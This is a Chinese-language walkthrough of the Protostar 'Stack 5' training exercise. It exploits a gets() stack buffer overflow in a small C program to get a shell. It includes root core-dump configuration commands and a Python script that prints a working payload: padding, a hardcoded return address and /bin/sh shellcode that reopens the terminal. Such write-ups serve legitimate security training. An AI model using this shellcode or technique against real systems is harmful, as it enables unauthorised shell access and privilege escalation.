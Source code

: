 

## Stack 5

源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

此题中可以利用`gets()`函数，利用shellcode来达成利用栈溢出漏洞获取shell的目的。

由于在gdb的调试状态下与程序实际运行时的栈地址会存在差别，因此我们可以利用`core dump`来获取核心转储文件进行调试，这就与实际运行情况下的环境相同。通过以下命令配置核心转储（suid文件默认不进行转储，所以还需要以root权限设置）：

```
user@protostar:~$ ulimit -c
0
user@protostar:~$ ulimit -c unlimited
user@protostar:~$ cat /proc/sys/kernel/core_pattern
/tmp/core.%s.%e.%p
user@protostar:~$ su
Password:
root@protostar:/home/user# echo 1 > /proc/sys/fs/suid_dumpable
```

最初的想法是：我们在`gets()`函数处直接输入shell code，然后让程序跳转到shell code处执行。获取地址、修改返回地址等流程不再赘述。

起初找了一个长度只有23字节的[shell code](http://shell-storm.org/shellcode/files/shellcode-827.php)，但是发现程序运行了`/bin/sh`后，直接退出了。问题应该是出在`stdin`上，利用管道`|`或者重定向符`<`进行输入后，我们无法再在终端直接进行输入，此处应该重新开启`stdin`，[参见Stackoverflow](https://stackoverflow.com/questions/2859127/shellcode-for-a-simple-stack-overflow-exploited-program-with-shell-terminates-d)。所以重新找了个适用于`gets()`函数的[shell code](https://www.exploit-db.com/exploits/13357/)，此shell code长度55字节。

接下来修改shellcode后发现仍然有问题，发现此shell code长度比较长，在shellcode执行的过程中，`push`操作把原本的shell code中的指令给覆盖了。解决办法是可以将shell code移至函数返回地址的后面，然后返回地址自然要相应作出修改。

产生payload的脚本：

``` python
#!/usr/bin/python
#coding=utf-8

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80" + "\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80" + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

#print len(shellcode)
print 76 * 'a' + '\x60\xf8\xff\xbf' + shellcode
```
